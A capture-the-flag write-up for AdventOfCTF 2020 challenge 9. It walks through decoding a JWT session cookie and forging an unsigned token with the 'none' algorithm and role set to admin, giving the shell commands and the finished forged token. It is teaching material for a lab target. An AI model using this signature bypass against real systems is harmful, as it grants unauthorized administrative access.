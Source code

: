 +++
author = "Maik de Kruif"
title = "Challenge 9 - AdventOfCTF"
date = 2020-12-11T21:24:52+01:00
description = "A writeup for challenge 9 of AdventOfCTF."
cover = "img/adventofctf/2020/973ded4b2381c28af6c24d3d670303c6.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 900

## Description

Can you find a way to get into the Naughty List Management System as an admin?

Visit <https://09.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the website, we're greeted with a login screen. When we enter random credentials, we're greeted with some text: "Hey **user** your **password** is incorrect.".

This took me quite some time to find out, but it's actually fairly obvious. I started by taking a look at the cookies, but there were none. Then I tried some common URLs, but nothing (except `/admin`). Then I took another look at the error message; some bold text... The username is `user` and the password is `incorrect`.

When entering these credentials, we get redirected to `/admin` with a message: "The naughty list is currently empty....". This time, however, we also got a cookie.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ.rre-8SBgllKlu7KpJFXuO-SEN3s-9IPRSJ7hmclXpNs
```

### JWT

This looks like a JWT. We can confirm this by decoding the text before the first period (`.`):

```bash
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
```

```json
{ "typ": "JWT", "alg": "HS256" }
```

It is a JWT that uses the HMAC-SHA256 (`HS256`) algorithm. Using a [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) is a compact, URL-safe, way of representing claims between a web server and a client. Let's decode the second part as well.

```bash
echo -n "eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ" | base64 -d
```

```json
{
  "auth": 28961,
  "text": "I do love a good puzzle.",
  "role": "user",
  "iat": 1607717857
}
```

We don't have to decode the last part as it is a secret that consists of non-printable characters.

The role in the JWT probably has to be changed to `"admin"` so let's try to do that.

#### Modifying a JWT

To modify a JWT, we would have to know the secret that was used to create it. If only there were some [vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) 😀.

In a JWT you can use `none` as the algorithm. It is intended to be used for situations where the integrity of the token has already been verified. Luckily for us, some libraries treat tokens signed with the `none` algorithm as a valid token with a verified signature. This means anyone can create their own "signed" tokens with whatever payload they want, allowing arbitrary account access on some systems.

To create such a JWT, we just reverse the process. Firstly, we create the first part of the token.

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

Then the middle part:

```bash
echo -n '{"auth":28961,"text":"I do love a good puzzle.","role":"admin","iat":1607717857}' | base64
> eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30=
```

And finally, the secret. We can leave this empty because we use the `none` algorithm.

Putting all of this together and removing the padding (`=`), we get `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30.`

## Solution

When setting the cookie to this value and reloading the page, we get the flag: `NOVI{Jw7_f@ilure_in_n0ne}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#9-10).
